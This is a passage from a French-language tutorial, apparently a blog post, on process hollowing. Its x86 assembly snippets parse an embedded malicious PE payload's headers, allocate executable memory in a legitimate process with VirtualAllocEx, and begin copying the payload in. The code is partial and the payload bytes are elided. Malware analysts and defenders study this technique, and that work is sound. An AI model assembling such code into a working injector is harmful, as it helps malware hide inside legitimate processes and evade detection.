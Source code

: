 Ainsi, pour avoir la taille de l'image du binaire malveillant:

```
	lea 	eax, [payload+3Ch] ; DOS_HEADER.e_lfanew
	mov 	eax, [eax]
	mov 	[e_lfanew], eax    ; offset to NT_HEADER

	mov 	ebx, [e_lfanew]
	lea	[payload+ebx+50h]  ; NT_HEADER.OPTIONAL_HEADER.SizeOfImage
	mov 	eax, [eax]         ; contient la taille de l'image !

payload:
	db 4DH, 5Ah, ....
	db ...
	db ...
endPayload:
```

Il reste ensuite à trouver une manière de déterminer à quelle adresse mettre en mémoire mon code malveillant. Je peux utiliser l'adresse de l'image de base si celle-ci n'est pas prise par le processus légitime. Sur les screenshots situés plus haut, on peut y voir le membre __ImageBase__ qui nous est utile. Essayez de calculer le bon offset par rapport à __e\_lfanew__ ^^ (réponse ci-dessous).

On peut donc allouer la zone mémoire (__VirtualAllocEx()__) dans le processus légitime comme il faut et avec la bonne taille:

```
_virtualAllocEx:
; allocate memory for  the executable image
	push		40h 		; PAGE_EXECUTE_READWRITE	; flProtect
	push		3000h 		; MEM_COMMIT or MEM_RESERVE		; flAllocationType

	mov 		ebx, [e_lfanew]
	lea 		eax, [payload+ebx+50h] ; NT_HEADER.OPTIONAL_HEADER.SizeOfImage
	mov 		eax, [eax]
	push		eax			; dwSize

	lea 		eax, [payload+ebx+34h] ; NT_HEADER.OPTIONAL_HEADER.ImageBase
	mov 		eax, [eax]
	push 		eax

	push		PrcInfo.hProcess
	call		VirtualAllocEx
```

On peut maintenant y copier du code. Je ne peux pas copier toute ma payload d'un coup. Comme on l'a vu plus, la taille de ma payload sur disque ne correspond pas à la taille de la paylod en mémoire pour des raisons notamment de taille de section. Il va donc falloir copier morceau par morceau. On commence par copier le header qui comprend:

* DOS_HEADER

* NT_HEADERS

* FILE_HEADER
